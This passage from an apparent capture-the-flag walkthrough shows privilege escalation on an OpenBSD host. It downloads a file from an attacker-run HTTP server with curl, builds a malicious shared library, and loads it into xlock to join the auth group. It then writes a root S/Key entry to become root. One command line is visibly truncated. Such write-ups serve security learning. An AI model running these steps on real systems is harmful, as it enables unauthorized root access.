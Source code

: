 As explained above, exploitation is possible with S/Key or Yubikey authentication enabled and a user in the auth group.

### 5. Escalate privileges
Firstly exploit xlock to achieve auth group privileges. I create the nessecary .c file and make it available over http server on my attacker machine. Then I can use curl to download it, compile with cc and load the file into xlock.
```bash
openkeys$ pwd
/tmp
ri.c && cc -fpic -shared -s -o swrast_dri.so swrast_dri.c && rm -rf swrast_dri.c && echo done                        <
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   374  100   374    0     0    460      0 --:--:-- --:--:-- --:--:--   460
done
openkeys$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
[5] 96077
openkeys$ _XSERVTransmkdir: ERROR: euid != 0,directory /tmp/.X11-unix will not be created.

openkeys$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66
openkeys$ id
uid=1001(jennifer) gid=11(auth) groups=1001(jennifer), 0(wheel)
```
Now the user is in the auth group.  
Moving to the next step, I can now add a root entry to SKey and change to root.
```bash
openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root && chmod 0600 /etc/skey/root && env -i TERM=vt220 su -l -a skey
S/Key Password:
openkeys# whoami                                                                                                
root
```